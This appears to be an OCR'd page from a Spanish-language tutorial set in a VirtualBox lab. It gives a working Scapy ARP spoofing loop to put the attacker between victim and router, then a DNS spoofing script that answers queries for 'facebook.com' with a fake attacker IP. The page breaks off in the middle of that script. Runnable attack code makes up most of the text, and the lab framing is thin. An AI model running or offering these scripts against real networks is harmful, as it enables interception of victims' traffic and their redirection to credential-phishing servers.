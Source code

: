 - Ambas conectadas en **red interna o puenteada** (en VirtualBox)
- IPs del mismo rango (ej. 192.168.1.x)
- Usa `http://example.com` o un sitio HTTP de prueba

---

### 🔐 Paso previo: MITM con ARP Spoofing

Necesitas estar entre la víctima y el router. Puedes hacerlo con Bettercap, Ettercap o Scapy. Aquí un ejemplo básico con Scapy (solo como recordatorio):

```python
from scapy.all import ARP, send
import time

victim_ip = "192.168.1.5"
router_ip = "192.168.1.1"
attacker_mac = "tu:ma:ca:ta:ca:tu"

def arp_spoof():
    while True:
        pkt1 = ARP(op=2, pdst=victim_ip, psrc=router_ip)
        pkt2 = ARP(op=2, pdst=router_ip, psrc=victim_ip)
        send(pkt1, verbose=0)
        send(pkt2, verbose=0)
        time.sleep(2)

arp_spoof()
```

Una vez estés en el medio, puedes manipular las respuestas DNS.

---

### 💡 DNS Spoofing con Python y Scapy – Explicación

#### ¿Qué hace el script?

- Escucha solicitudes DNS (`UDP/port 53`)
- Si detecta que la víctima pregunta por un dominio específico (como `facebook.com`)
- El script **responde falsamente** con una IP falsa

---

### ✅ Código completo: `dns_spoofer.py`

```python
from scapy.all import *
import sys

# Cambiar según tu laboratorio
target_domain = "facebook.com"
fake_ip = "192.168.1.100"  # IP del servidor falso (puede ser tu Kali Linux)

def dns_spoof(packet):
    if packet.haslayer(DNS) and packet.getlayer(DNS).qr == 0:
        qname = packet[DNSQR].qname.decode()

        if target_domain in qname:
            print(f"[+] DNS request for {qname} -> Redirigiendo a {fake_ip}")

            spoofed_response = IP(dst=packet[IP].src, src=packet[IP].dst)/ \
                               UDP(dport=packet[UDP].sport, sport=53)/ \
                               DNS(id=packet[DNS].id, qr=1, aa=1, qd=packet[DNS].qd,
                                   an=DNSRR(rrname=qname, ttl=10, rdata=fake_ip))

```